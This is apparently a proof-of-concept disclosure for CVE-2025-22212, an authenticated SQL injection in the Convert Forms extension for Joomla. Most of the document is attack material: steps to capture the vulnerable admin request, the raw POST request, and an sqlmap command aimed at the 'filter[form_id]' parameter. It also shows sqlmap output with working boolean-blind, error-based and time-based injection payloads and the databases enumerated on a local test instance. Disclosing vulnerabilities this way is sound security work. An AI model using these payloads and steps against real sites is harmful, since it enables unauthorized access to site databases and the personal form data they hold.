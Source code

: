 # CVE-2025-22212: SQL injection in Convert Forms for Joomla!

**CVE Link:** https://www.cve.org/CVERecord?id=CVE-2025-22212

**Convert Forms:** https://extensions.joomla.org/extension/convert-forms/

## Introduction
An authenticated (administrator) SQL injection (SQLi) vulnerability exists in the Convert Forms extension for Joomla (v4.3.3) via the 'filter[form_id]' parameter in the appointment contact form.

## POC
To exploit this vulnerability, go to 'Convert Forms >> Submissions >> Select Form >> Appointment Form (Unpublished Form) (1) >> search = test', click "search" and save the request in Burp Suite (req.txt).

![Alt text](6.png)

**HTTP Request:**
```
POST /administrator/index.php?option=com_convertforms&view=conversions HTTP/1.1
Host: localhost:8080
Content-Length: 550
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="133", "Not(A:Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/administrator/index.php?option=com_convertforms&view=conversions
Accept-Encoding: gzip, deflate, br
Cookie: osColorScheme=dark; c746293156f560164ea71d168e5eb505=185f350a58725560d05ead66c402b552
Connection: keep-alive

filter%5Bsearch%5D=test&list%5Bfullordering%5D=a.id+DESC&list%5Blimit%5D=20&filter%5Bform_id%5D=1&filter%5Bperiod%5D=today&filter%5Bcreated_from%5D=&filter%5Bcreated_to%5D=&filter%5Bstate%5D=1&filter%5Bcolumns%5D%5B%5D=id&filter%5Bcolumns%5D%5B%5D=created&filter%5Bcolumns%5D%5B%5D=param_name&filter%5Bcolumns%5D%5B%5D=param_phone&filter%5Bcolumns%5D%5B%5D=param_email&filter%5Bcolumns%5D%5B%5D=param_comments&filter%5Bcolumns%5D%5B%5D=user_id&filter%5Bcolumns%5D%5B%5D=user_username&limitstart=0&task=&boxchecked=0&91f09fbac7a360dc5172b300bfb25d8f=1
```

**Exploit:**
```
ubuntu@host:~$ python3 sqlmap.py -r ~/req.txt --batch --dbs --dbms=mysql -p 'filter[form_id]'
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.9.1.2#dev}
|_ -| . [,]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

---
Parameter: filter[form_id] (POST)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: filter[search]=test&list[fullordering]=a.id DESC&list[limit]=20&filter[form_id]=(SELECT (CASE WHEN (2790=2790) THEN 1 ELSE (SELECT 7529 UNION SELECT 2507) END))&filter[period]=today&filter[created_from]=&filter[created_to]=&filter[state]=1&filter[columns][]=id&filter[columns][]=created&filter[columns][]=param_name&filter[columns][]=param_phone&filter[columns][]=param_email&filter[columns][]=param_comments&filter[columns][]=user_id&filter[columns][]=user_username&limitstart=0&task=&boxchecked=0&91f09fbac7a360dc5172b300bfb25d8f=1

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: filter[search]=test&list[fullordering]=a.id DESC&list[limit]=20&filter[form_id]=1 AND GTID_SUBSET(CONCAT(0x7176787871,(SELECT (ELT(4243=4243,1))),0x7178707671),4243)&filter[period]=today&filter[created_from]=&filter[created_to]=&filter[state]=1&filter[columns][]=id&filter[columns][]=created&filter[columns][]=param_name&filter[columns][]=param_phone&filter[columns][]=param_email&filter[columns][]=param_comments&filter[columns][]=user_id&filter[columns][]=user_username&limitstart=0&task=&boxchecked=0&91f09fbac7a360dc5172b300bfb25d8f=1

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: filter[search]=test&list[fullordering]=a.id DESC&list[limit]=20&filter[form_id]=1 AND (SELECT 2967 FROM (SELECT(SLEEP(5)))daVE)&filter[period]=today&filter[created_from]=&filter[created_to]=&filter[state]=1&filter[columns][]=id&filter[columns][]=created&filter[columns][]=param_name&filter[columns][]=param_phone&filter[columns][]=param_email&filter[columns][]=param_comments&filter[columns][]=user_id&filter[columns][]=user_username&limitstart=0&task=&boxchecked=0&91f09fbac7a360dc5172b300bfb25d8f=1
---

available databases [3]:
[*] information_schema
[*] joomla_db
[*] performance_schema
```
